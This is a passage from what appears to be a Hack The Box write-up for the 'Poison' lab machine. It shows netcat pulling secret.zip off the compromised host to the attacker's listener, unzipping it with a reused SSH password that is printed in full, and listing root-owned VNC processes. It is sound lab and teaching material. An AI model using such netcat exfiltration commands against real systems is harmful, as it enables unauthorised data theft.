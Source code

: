 Lets transfer this over to our machine!

```bash
- Terminal - 
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# nc -nlvp 1111 > secret.zip
listening on [any] 1111 ...

- SSH -
charix@Poison:~ % nc -w 3 10.10.14.2 1111 < secret.zip

- Terminal - 
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# nc -nlvp 1111 > secret.zip
listening on [any] 1111 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.84] 63902

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# ls
secret.zip
```

Unzipping the file requires a password. Luckily, the password for the file is the same as the password for SSH! :)

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# unzip secret.zip                         
Archive:  secret.zip
[secret.zip] secret password: Charix!2#4%6&8(0
 extracting: secret                  

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# file secret            
secret: Non-ISO extended-ASCII text, with no line terminators                                            
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# cat secret                                            
��[|Ֆz!              
```

Huh? It seems to be some weird encoded text. Well, I guess we have to find something else then.

Another thing that came to mind was to find out what running processes there are on the system.

```bash
charix@Poison:~ % ps -aux
USER   PID  %CPU %MEM    VSZ   RSS TT  STAT STARTED     TIME COMMAND
...
root   529   0.0  0.9  23620  8872 v0- I    03:28    0:00.03 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/clas
root   540   0.0  0.7  67220  7064 v0- I    03:28    0:00.02 xterm -geometry 80x24+10+10 -ls -title X Desktop
...
```
